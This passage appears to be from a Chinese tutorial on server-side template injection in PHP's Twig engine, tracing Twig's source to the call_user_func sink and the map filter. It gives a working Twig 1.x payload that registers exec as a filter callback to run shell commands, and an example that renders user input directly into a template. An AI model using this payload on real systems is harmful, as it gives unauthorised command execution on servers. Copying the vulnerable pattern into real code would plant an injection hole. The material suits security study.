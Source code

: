 我们发现1149行中有call\_user\_func这个危险函数

```php
        foreach ($this->filterCallbacks as $callback) {
            if (false !== $filter = call_user_func($callback, $name)) {
                return $filter;
            }
```

所以我们只需要给$callback和$name赋值就可以实现命令执行，$callback的赋值需要通过调用registerUndefinedFilterCallback()方法。

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}
```

```php
public function getGlobals()
{
    if (!$this->runtimeInitialized && !$this->extensionInitialized) {
        return $this->initGlobals();
    }

    if (null === $this->globals) {
        $this->globals = $this->initGlobals();
    }

    return $this->globals;
}
```

#### 2.x&amp;3.x版本

在2.x及以后的版本中已经停用了全局变量`__self`所以我们就可以使用一些过滤器来进行攻击

实例:

```php
<?php
require_once __DIR__.'/vendor/autoload.php';

$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);

$template = $twig->createTemplate("Hello {$_GET['name']}!");

echo $template->render();
```

##### map过滤器

我们先来看map的源码：

```php
function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);    
    }

    return $r;
}
```
